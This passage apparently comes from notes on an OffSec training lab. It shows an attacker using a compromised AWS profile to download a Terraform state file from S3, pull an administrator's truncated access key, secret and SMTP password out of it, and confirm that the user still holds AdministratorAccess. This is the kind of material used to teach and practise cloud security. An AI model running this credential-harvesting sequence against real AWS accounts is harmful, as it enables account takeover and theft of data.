            "Name": "msmeualz-offseclab-private",
            "CreationDate": "2024-05-22T18:30:34+00:00"
        },
        {
            "Name": "tf-state-4xm0tunr38t6vg90",
            "CreationDate": "2025-11-22T13:01:49+00:00"
        }
    ],
    "Owner": {
        "ID": "7014489caa5b8816d5570b7456eb042d92a206050956d2dd4953a649eddf1091"
    },
    "Prefix": null
}

aws --profile=compromised-s3 s3 cp s3://tf-state-4xm0tunr38t6vg90/terraform.tfstate .
cat terraform.tfstate

"user_list": {
      "value": [
        {
          "email": "Goran.Bregovic@offseclab.io",
          "name": "Goran.B",
          "phone": "+1 555-123-4567",
          "policy": "arn:aws:iam::aws:policy/AdministratorAccess"
        },
...
"instances": [
 {
          "index_key": "Goran.B",
          "schema_version": 0,
          "attributes": {
            "id": "AK...",
            "secret": "Oax...",
            "ses_smtp_password_v4": "BIx...",
            "status": "Active",
            "user": "Goran.B"

# login as goran.b and verify he has still AdministratorAccess
aws --profile=goran.b iam list-attached-user-policies --user-name goran.b
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}

```
